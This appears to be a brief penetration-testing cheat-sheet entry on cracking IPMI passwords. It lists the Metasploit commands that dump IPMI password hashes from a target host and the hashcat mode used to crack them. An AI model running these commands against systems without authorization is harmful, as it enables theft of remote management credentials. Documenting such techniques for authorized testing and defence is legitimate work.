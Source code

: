 Intelligent Platform Management Interface , 

## Cracking IPMI  Passwords (MSF)
https://gbe0.com/posts/security/cracking-ipmi-passwords/
```bash
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set RHOST <IP>
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
```
`hashcat -m 7300`
